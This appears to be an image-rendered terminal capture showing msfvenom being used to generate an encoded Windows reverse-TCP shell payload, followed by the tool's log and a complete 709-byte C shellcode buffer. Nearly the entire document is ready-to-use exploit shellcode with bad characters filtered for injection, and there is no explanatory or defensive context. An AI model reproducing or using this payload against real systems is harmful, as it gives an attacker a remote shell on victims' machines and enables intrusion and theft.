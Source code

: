 msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=136 -b="\x00\x0a\x0d\xff" -f raw

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=136 -b="\x00\x0a\x0d\xff" -f c -e x86/alpha_mixed
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 709 (iteration=0)
x86/alpha_mixed chosen with final size 709
Payload size: 709 bytes
Final size of c file: 3004 bytes
unsigned char buf[] = 
"\x89\xe0\xda\xde\xd9\x70\xf4\x5a\x4a\x4a\x4a\x4a\x4a\x4a\x4a"
"\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x37\x52\x59\x6a\x41"
"\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42"
"\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x79"
"\x6c\x39\x78\x6b\x32\x65\x50\x63\x30\x37\x70\x63\x50\x6b\x39"
"\x6a\x45\x46\x51\x69\x50\x51\x74\x6e\x6b\x62\x70\x44\x70\x4e"
"\x6b\x73\x62\x46\x6c\x4e\x6b\x50\x52\x47\x64\x4c\x4b\x73\x42"
"\x57\x58\x34\x4f\x48\x37\x33\x7a\x57\x56\x30\x31\x4b\x4f\x4c"
"\x6c\x35\x6c\x71\x71\x43\x4c\x65\x52\x54\x6c\x31\x30\x59\x51"
"\x6a\x6f\x44\x4d\x57\x71\x38\x47\x79\x72\x5a\x52\x46\x32\x33"
"\x67\x6e\x6b\x46\x32\x56\x70\x4c\x4b\x32\x6a\x67\x4c\x4e\x6b"
"\x62\x6c\x74\x51\x44\x38\x48\x63\x67\x38\x63\x31\x6e\x31\x70"
"\x51\x6e\x6b\x50\x59\x57\x50\x36\x61\x78\x53\x6c\x4b\x43\x79"
"\x54\x58\x6a\x43\x77\x4a\x57\x39\x6c\x4b\x44\x74\x4e\x6b\x36"
"\x61\x7a\x76\x54\x71\x49\x6f\x4e\x4c\x4f\x31\x38\x4f\x46\x6d"
"\x45\x51\x4b\x77\x46\x58\x49\x70\x53\x45\x48\x76\x75\x53\x53"
"\x4d\x69\x68\x35\x6b\x73\x4d\x64\x64\x63\x45\x39\x74\x43\x68"
"\x6c\x4b\x76\x38\x75\x74\x65\x51\x7a\x73\x72\x46\x6e\x6b\x54"
"\x4c\x70\x4b\x6c\x4b\x62\x78\x77\x6c\x57\x71\x6e\x33\x4c\x4b"
"\x35\x54\x4c\x4b\x53\x31\x7a\x70\x6b\x39\x77\x34\x46\x44\x36"
"\x44\x51\x4b\x31\x4b\x55\x31\x42\x79\x32\x7a\x53\x61\x6b\x4f"
"\x6b\x50\x63\x6f\x31\x4f\x63\x6a\x6e\x6b\x67\x62\x7a\x4b\x6e"
"\x6d\x71\x4d\x35\x38\x45\x63\x77\x42\x65\x50\x73\x30\x75\x38"
"\x34\x37\x52\x53\x54\x72\x53\x6f\x63\x64\x51\x78\x62\x6c\x70"
"\x77\x61\x36\x45\x57\x4b\x4f\x49\x45\x4d\x68\x7a\x30\x73\x31"
"\x57\x70\x67\x70\x71\x39\x6b\x74\x72\x74\x70\x50\x63\x58\x66"
"\x49\x6b\x30\x70\x6b\x37\x70\x69\x6f\x39\x45\x50\x50\x46\x30"
"\x36\x30\x76\x30\x51\x50\x76\x30\x37\x30\x52\x70\x62\x48\x38"
"\x6a\x56\x6f\x59\x4f\x59\x70\x49\x6f\x6a\x75\x6a\x37\x50\x6a"
"\x33\x35\x70\x68\x71\x6f\x55\x50\x65\x50\x46\x61\x61\x78\x54"
"\x42\x47\x70\x45\x50\x4c\x48\x4f\x79\x6a\x46\x52\x4a\x54\x50"
"\x52\x76\x73\x67\x70\x68\x6c\x59\x6c\x65\x42\x54\x70\x61\x49"
"\x6f\x6b\x65\x6f\x75\x6b\x70\x54\x34\x66\x6c\x49\x6f\x30\x4e"
"\x57\x78\x64\x35\x68\x6c\x52\x48\x48\x70\x6d\x65\x6d\x72\x53"
"\x66\x4b\x4f\x38\x55\x72\x48\x75\x33\x42\x4d\x32\x44\x63\x30"
"\x4e\x69\x5a\x43\x76\x37\x71\x47\x50\x57\x36\x51\x6a\x56\x52"
"\x4a\x65\x42\x52\x79\x61\x46\x48\x62\x49\x6d\x31\x76\x58\x47"
"\x77\x34\x44\x64\x47\x4c\x73\x31\x76\x61\x4c\x4d\x63\x74\x64"
"\x64\x32\x30\x4b\x76\x33\x30\x43\x74\x32\x74\x50\x50\x62\x76"
"\x36\x36\x52\x76\x33\x76\x76\x36\x52\x6e\x36\x36\x52\x76\x53"
"\x63\x33\x66\x43\x58\x74\x39\x78\x4c\x47\x4f\x4e\x66\x69\x6f"
"\x79\x45\x4d\x59\x6d\x30\x42\x6e\x72\x76\x31\x56\x59\x6f\x30"
"\x30\x45\x38\x64\x48\x6f\x77\x57\x6d\x53\x50\x59\x6f\x79\x45"
"\x4d\x6b\x6c\x30\x6f\x45\x79\x32\x32\x76\x70\x68\x49\x36\x4f"
"\x65\x4d\x6d\x6d\x4d\x69\x6f\x6b\x65\x75\x6c\x64\x46\x61\x6c"
"\x65\x5a\x4f\x70\x69\x6b\x6b\x50\x52\x55\x75\x55\x4d\x6b\x42"
"\x67\x75\x43\x72\x52\x52\x4f\x30\x6a\x55\x50\x46\x33\x79\x6f"
"\x59\x45\x41\x41";
```
